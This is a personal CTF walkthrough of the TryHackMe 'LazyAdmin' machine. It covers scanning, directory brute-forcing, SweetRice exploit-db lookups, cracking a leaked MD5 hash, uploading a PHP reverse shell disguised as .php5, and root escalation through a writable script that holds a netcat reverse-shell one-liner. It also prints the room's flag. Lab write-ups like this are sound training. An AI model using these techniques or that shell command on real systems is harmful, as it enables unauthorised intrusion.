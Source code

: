 ```yaml
---
title: TryHackMe - LazyAdmin
date: 2025-02-04 20:57:30 +0530
categories: [TryHackMe, CTF]
tags: []     # TAG names should always be lowercase
description: Short summary of the post.
# toc: false
comments: false
# pin: true
published: false
---
```




```
➜  ~ nmap -sVC 10.10.168.208    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-04 14:55 IST
Nmap scan report for 10.10.168.208
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.36 seconds
```
nmap scan it revels open ports 22 and 80. http port is open so i visit the webste
it open a apache default page and check apachie vesion is vulnerable but it secure
so i started searching of directory with gobuster

```
➜  ~ gobuster dir -u http://10.10.168.208/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt        

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.168.208/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> http://10.10.168.208/content/]
Progress: 44414 / 220561 (20.14%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 44438 / 220561 (20.15%)
===============================================================
Finished
=============================================================
```

after visit the direcotry it shows sweetrice is installed s
so i just search the verssion and andy hidden something  thorugh source page 
i found then /contetn/js can able to access javascrip files
it revel some verssion info
```
/**
 * SweetRice javascript function.
 *
 * @package SweetRice
 * @Dashboard core
 * @since 0.5.4
 */
```
then i go to exploit db then check exploits i found https://www.exploit-db.com/exploits/40718
with the guidance it seach `/inc/mysql_backup` directory it shows the sql file and downalod it

```
➜  /tmp file mysql_bakup_20191129023059-1.5.1.sql
mysql_bakup_20191129023059-1.5.1.sql: PHP script, ASCII text, with very long lines (1125)
➜  /tmp 
```
so i just open the file with sublime it revels the usrname and password
so search the login page again i do dir serach

```
➜  /tmp gobuster dir -u http://10.10.168.208/content -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.168.208/content
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/_themes              (Status: 301) [Size: 324] [--> http://10.10.168.208/content/_themes/]
/as                   (Status: 301) [Size: 319] [--> http://10.10.168.208/content/as/]
/attachment           (Status: 301) [Size: 327] [--> http://10.10.168.208/content/attachment/]
/images               (Status: 301) [Size: 323] [--> http://10.10.168.208/content/images/]
/inc                  (Status: 301) [Size: 320] [--> http://10.10.168.208/content/inc/]
/index.php            (Status: 200) [Size: 2199]
/js                   (Status: 301) [Size: 319] [--> http://10.10.168.208/content/js/]
Progress: 4728 / 4729 (99.98%)
===============================================================
Finished
===============================================================
```
i found as as login page
then i found username as manager and hash i use crack station to find the  password as Password123
i tired amdin and manager manager will work logined
```
Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 245 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

42f749ade7f9e195bf475f37a44cafcb:Password123              
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 42f749ade7f9e195bf475f37a44cafcb
Time.Started.....: Tue Feb  4 15:19:58 2025 (0 secs)
Time.Estimated...: Tue Feb  4 15:19:58 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 16442.2 kH/s (3.44ms) @ Accel:1024 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 917504/14344384 (6.40%)
Rejected.........: 0/917504 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> jam16
Hardware.Mon.#1..: Temp: 45c Util:  0% Core:1455MHz Mem:5000MHz Bus:8

Started: Tue Feb  4 15:19:45 2025
Stopped: Tue Feb  4 15:19:59 2025
```

then i just explore the website then go to exploit db then read the another exploit
i found this one https://www.exploit-db.com/exploits/40716
then i read the exploit code so i decided to dont do scirpt kidy then i understand the what exploit does
then i says we can able to attach file in meda center then access media file in 
/acctachemt directory in webste
then i get php revershell to start my revershell the get revershell there is one check 
we cant able to upload php file so chage the php file into .php5
 got  the sehll then get user.txt flag

 next move to privilage escapulation
 then i check 

 ```
 $ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
then i check the backup.pl
```
$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ 
```
then i check the copy.sh
```
$ cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ 
```

it says another revere shell
so i check i can able to modiyt yes it should so i change

```
$ ls -la copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 copy.sh
$ 
```

`echo "/bin/bash" > copy.sh`

```
/usr/bin/perl /home/itguy/backup.pl
whoami
root
cd /root
ls
root.txt
cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}

```


